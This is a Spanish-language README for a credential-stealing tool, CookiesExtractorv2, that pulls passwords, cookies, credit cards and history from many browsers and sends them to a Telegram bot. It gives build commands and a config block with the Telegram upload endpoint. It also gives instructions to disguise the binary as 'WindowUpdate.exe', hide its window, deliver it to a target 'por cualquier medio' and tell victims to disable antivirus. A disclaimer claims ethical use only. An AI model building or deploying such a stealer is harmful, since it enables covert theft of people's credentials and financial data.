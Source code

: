 <h1>CookiesExtractorv2</h1>
CookiesExtractorv2 es una herramienta desarrollada en Go diseñada para extraer datos sensibles de navegadores web (contraseñas, historial, cookies, marcadores, tarjetas de crédito, historial de descargas, localStorage y extensiones). A diferencia de la herramienta base, esta versión opera de forma discreta en segundo plano, recolecta los datos extraídos y los envía automáticamente a un bot de Telegram configurado. Soporta los navegadores más populares en Windows, macOS y Linux, e incluye mecanismos para su persistencia y ocultamiento en el sistema objetivo.
  
> Advertencia Importante:
Esta herramienta es una modificación del proyecto original HackBrowserData y ha sido configurada para operar de manera autónoma, recolectando datos de navegación y enviándolos a un destino remoto (Telegram). Su uso implica la extracción y transmisión de información sensible del sistema donde se ejecuta. Esta herramienta está destinada EXCLUSIVAMENTE para fines de investigación de seguridad y pruebas de penetración ÉTICAS en entornos controlados y con el CONSENTIMIENTO EXPLÍCITO Y DOCUMENTADO del propietario del sistema. Cualquier uso no autorizado de este software para acceder, recopilar o exfiltrar datos sin el permiso expreso del propietario del sistema es ILEGAL y NO ÉTICO. El autor y los contribuidores no asumen ninguna responsabilidad legal o moral por cualquier uso indebido o ilegal de esta herramienta.

Navegadores Compatibles

### Windows
| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| 360 Speed          |    ✅     |   ✅    |    ✅     |    ✅    |
| QQ                 |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Internet Explorer  |    ❌     |   ❌    |    ❌     |    ❌    |


### MacOS

Based on Apple's security policy, some browsers **require a current user password** to decrypt.

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| Arc                |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Safari             |    ❌     |   ❌    |    ❌     |    ❌    |

### Linux

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge Dev |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |


## Instalación
Descarga el proyecto o clona el repositorio

```bash
$ git clone https://github.com/GrpDsG20/CookiesExtractorv2
```

### Configura tu bot de Telegram:
Antes de compilar, necesitas editar el archivo main.go en la ruta ```bash cmd/hack-browser-data/main.go. ``` Busca las líneas TelegramToken y ChatID y reemplaza los valores por tu propio token de bot de Telegram y el ID de tu chat.
```bash
const (
    TelegramToken   = "TU_TOKEN_DE_BOT_AQUI" // Reemplaza esto con tu token real
    ChatID          = "TU_CHAT_ID_AQUI"     // Reemplaza esto con tu ID de chat real
    TelegramFileAPI = "https://api.telegram.org/bot%s/sendDocument"
)
```
# Navega a la raíz de tu proyecto
cd CookiesExtractorv2

# Inicializa y limpia tu módulo (si aún no lo has hecho)
go mod tidy

# Navega hasta este apartado
cd cmd\hack-browser-data

# Compila el ejecutable (desde la raíz del módulo)
go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe

# Envia el .exe por cualquier medio descargalo y ejecutalo 

Nota: En algunas situaciones, esta herramienta de seguridad puede ser detectada como un virus por Windows Defender u otro software antivirus y no podrá ejecutarse. Es recomendable desactivar el antivirus temporalmente, como si instalaras cualquier programa "crackeado". El código es de código abierto, puedes modificarlo y compilarlo tú mismo. Ten en cuenta que esta versión modificada está diseñada para operar de forma sigilosa y enviar datos a un bot de Telegram, lo cual es la razón principal de tales detecciones.


Compilación cruzada (Cross compile)
Aquí tienes un ejemplo de cómo usar macOS para compilar para Windows y Linux. Asegúrate de estar en la raíz de tu módulo (CookiesExtractorv2) cuando ejecutes estos comandos.

Para Windows
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe ./cmd/hack-browser-data

Para Linux
GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o WindowUpdate ./cmd/hack-browser-data

Ejecución
Importante: Esta versión de la herramienta está diseñada para ejecutarse de forma sigilosa en segundo plano. Los ejemplos de comandos que se muestran a continuación corresponden al comportamiento de la herramienta original para exportación local y para fines de depuración o prueba de sus capacidades de extracción, no a la operación normal de esta versión modificada.


